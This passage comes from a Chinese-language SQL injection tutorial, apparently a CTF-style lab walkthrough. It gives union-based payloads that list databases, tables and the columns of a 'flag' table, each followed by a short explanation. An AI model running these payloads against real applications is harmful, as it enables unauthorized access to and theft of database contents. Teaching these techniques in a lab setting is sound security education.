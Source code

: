 ###### 泄露数据库

```sql
' UNION SELECT GROUP_CONCAT(SCHEMA_NAME),2,3 FROM information_schema.schemata#
```

> <img src="./IMG3/30.png">

在获得的所有数据库中，`mysql`、`information_schema`、`performance_schema`、`sys`都是系统自带表，一般可以直接忽略

###### 泄露数据表

在泄露的数据库中，我们选择`test`库继续注入攻击，泄露`test`库中的所有数据表

```sql
' UNION SELECT GROUP_CONCAT(TABLE_NAME),DATABASE(),3 FROM information_schema.tables WHERE TABLE_SCHEMA=DATABASE()#
```

> <img src="./IMG3/29.png">

这里需要注意，在`information_schema.tables`中，表所属数据库的字段名为`TABLE_SCHEMA`，而不是之前的`SCHEMA_NAME`，而且因为当前数据库正好是`test`，所以可以使用`DATABASE()`来代替

###### 泄露字段名

在`test`中，我们发现了`flag`表，那么`flag`一定就在其中，下一步就是查询`flag`表中的字段名

```sql
' UNION SELECT GROUP_CONCAT(COLUMN_NAME),DATABASE(),3 FROM information_schema.columns WHERE TABLE_SCHEMA=DATABASE() AND TABLE_NAME='flag'#
```

> <img src="./IMG3/28.png">
